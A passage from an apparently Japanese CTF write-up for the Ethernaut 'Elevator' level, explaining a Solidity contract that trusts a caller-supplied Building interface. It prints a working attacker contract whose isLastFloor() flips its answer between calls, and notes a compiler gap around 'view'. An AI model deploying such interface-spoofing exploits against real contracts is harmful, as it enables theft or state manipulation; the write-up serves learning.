 ちなみに、最初は `withdraw()` のメソッドIDを得る部分を
`bytes4(keccak256("withdraw(uint)"))` と書いていたのだが、上手く動かなかった。
正しくは `bytes4(keccak256("withdraw(uint256)"))` のようだ。

## 8. Elevator

```solidity
interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

`Building.isLastFloor()` の1回目の呼び出しではfalseを返し、2回目の呼び出しでは
trueを返せば `top` をtrueにできる。

```solidity
contract Elevator {
    function goTo(uint) public;
}

contract FakeBuilding {
    bool flag;

    function FakeBuilding() public {
        flag = true;
    }

    function goTo(uint) public {
        Elevator elevator =  Elevator(0xfe0206670305a64e6edc0a3c28f206eb8f508355);
        elevator.goTo(100);
    }

    function isLastFloor(uint) public returns (bool) {
        flag = !flag;
        return flag;
    }
}
```

`isLastFloor()` のシグネイチャにはC++でいうconstを意味する `view` 属性が付いて
いるので、本来はストレージの書き換えはコンパイルエラーになるべきなのだが、
(現状では) Solidityのコンパイラは通してしまう。
